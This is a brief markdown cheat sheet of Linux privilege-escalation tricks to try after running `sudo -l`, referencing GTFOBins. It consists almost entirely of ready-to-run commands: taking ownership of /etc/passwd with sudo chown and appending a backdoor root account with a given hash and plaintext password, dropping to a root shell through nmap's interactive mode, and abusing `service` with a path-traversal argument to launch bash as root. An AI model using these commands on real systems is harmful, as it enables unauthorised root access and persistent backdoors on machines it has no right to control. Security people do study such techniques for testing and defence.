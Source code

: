 Tricks to play after running `sudo -l`
https://gtfobins.github.io/

## Chown
```
sudo chown asterisk:asterisk /etc/passwd
echo "flame:sa/zAjIC0QWtk:0:0::/root/:/bin/bash" >> /etc/passwd
su - flame
Password: flamen
```

## nmap
```
sudo nmap --interactive
!sh
```

## service
```
sudo /sbin/service ../../../bin/bash
```
